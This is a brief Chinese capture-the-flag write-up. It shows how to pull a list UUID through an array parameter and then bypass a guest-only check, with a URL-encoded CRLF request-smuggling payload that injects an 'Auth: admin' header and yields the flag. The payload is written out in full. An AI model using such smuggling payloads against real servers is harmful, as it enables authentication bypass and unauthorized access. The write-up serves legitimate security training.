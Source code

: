 访问 ./dosearch?username[]=admin。

得到其list的uuid：0c9008c9-ec00-4532-bfa1-b917ab8e7ddb。

![](../../../images/562ea40f03aeee2408117c20c0c88187.png)

代码审计http.conf，发现可以通过do的形式打请求转发，请求走私可以自定义请求头 Auth，从而绕过guest

![](../../../images/2792646ba890f8be2351c649f398d8c1.png)

直接在url中请求走私

:::color5
/dopost/id/0c9008c9-ec00-4532-bfa1-b917ab8e7ddb%20HTTP/1.1%0d%0aHost:%20123123%0d%0aUser-Agent:%20123123%0d%0aAuth:%20admin%0d%0a%0d%0aGET%20/123

:::

然后即可得到 flag。





